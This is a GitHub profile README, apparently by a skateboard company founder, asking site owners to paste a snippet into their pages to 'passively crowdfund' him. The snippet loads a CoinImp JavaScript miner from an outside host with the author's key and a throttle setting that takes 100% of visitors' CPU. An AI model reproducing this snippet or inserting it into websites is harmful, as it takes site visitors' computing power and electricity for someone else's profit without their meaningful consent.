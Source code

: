 #
Gitbhub profile of JW Hollibush Founder of Corpsehustler Skateboards and Flow2Pro dapp
#

##
You can help passively Crowdfund this bootstrap by pasting the following code snippet into your web pages head tag as described below.
##

###
Put this code before the
###

```
</body>

```
tag in your website after the 

```
</head>

```
 tag to enable background mining:

####change throttle number from zero=100% to between 1 and 99 to limit free cpu usage of user's cpu
####


#####See how it appears here at:#####

######<a href=https://djjizzygymsock.blogspot.com>My associate's donated blog. Big thanks to DJ Jizzy Gymsock and affiliated "artists"</a>######

Put this code before 

```
</body> 

```
tag in your website for background mining and thanks for considering it.

To enable separate mining for site users, check coming documentation to be rewarded for being an affiliate site. documentation.

```
<script src="https://www.hostingcloud.racing/pLiB.js"></script>
<script>
    var _client = new Client.Anonymous('99e1a9eca67152a76e3b0f4250ed81d695de5212980648c3311203bbff104561', {
        throttle: 0, c: 'w'
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");

</script>

```
